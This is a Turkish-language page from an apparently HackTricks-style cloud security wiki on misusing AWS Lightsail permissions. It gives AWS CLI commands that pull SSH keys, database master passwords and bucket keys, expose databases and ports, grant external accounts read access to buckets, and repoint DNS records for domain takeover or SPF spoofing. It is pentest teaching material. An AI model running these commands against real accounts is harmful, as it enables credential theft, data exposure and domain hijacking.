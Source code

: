 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Lightsail hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Lightsail'in **kullanıcının IAM rollerini kullanmadığını** ancak bir AWS yönetilen hesabına ait olduğunu belirtmek önemlidir, bu nedenle bu hizmeti privesc için kötüye kullanamazsınız. Ancak, **duyarlı veriler** olarak kod, API anahtarları ve veritabanı bilgileri bu hizmette bulunabilir.

### `lightsail:DownloadDefaultKeyPair`

Bu izin, örneklere erişmek için SSH anahtarlarını almanıza olanak tanır:
```
aws lightsail download-default-key-pair
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:GetInstanceAccessDetails`

Bu izin, örneklere erişmek için SSH anahtarları oluşturmanıza olanak tanır:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Olası Etki:** Örneklerin içinde hassas bilgileri bulmak.

### `lightsail:CreateBucketAccessKey`

Bu izin, size kovaya erişim anahtarı almanıza olanak tanır:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Olası Etki:** Kova içinde hassas bilgileri bulma.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Bu izin, veritabanına erişim için kimlik bilgilerini almanıza olanak tanır:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Olası Etki:** Veritabanında hassas bilgileri bulmak.

### `lightsail:UpdateRelationalDatabase`

Bu izin, veritabanına erişim için şifreyi değiştirmenize olanak tanır:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Eğer veritabanı kamuya açık değilse, bu izinlerle kamuya açık hale getirebilirsiniz.
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Olası Etki:** Veritabanında hassas bilgileri bulmak.

### `lightsail:OpenInstancePublicPorts`

Bu izin, portları İnternete açmaya olanak tanır.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:PutInstancePublicPorts`

Bu izin, portları İnternet'e açmaya olanak tanır. Bu çağrının, belirtilmeyen herhangi bir açılan portu kapatacağını unutmayın.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Olası Etki:** Hassas portlara erişim.

### `lightsail:SetResourceAccessForBucket`

Bu izin, bir örneğe ek kimlik bilgileri olmadan bir kovaya erişim verme imkanı tanır.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potansiyel Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateBucket`

Bu izinle bir saldırgan, kendi AWS hesabına bucket'lar üzerinde okuma erişimi verebilir veya bucket'ları herkes için halka açık hale getirebilir:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potansiyel Etki:** Hassas bilgilere sahip bucket'lara potansiyel yeni erişim.

### `lightsail:UpdateContainerService`

Bu izinlerle bir saldırgan, konteyner hizmetinden özel ECR'lere erişim verebilir.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Olası Etki:** Özel ECR'den hassas bilgiler elde etme

### `lightsail:CreateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da alan adından e-posta sahteciliği yapmasına izin veren bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Olası Etki:** Bir alan adını ele geçirmek

### `lightsail:UpdateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), ya da alan adından e-postaları sahtelemek için bir SPF kaydı oluşturabilir, hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Olası Etki:** Bir alanı ele geçirmek

{{#include ../../../banners/hacktricks-training.md}}
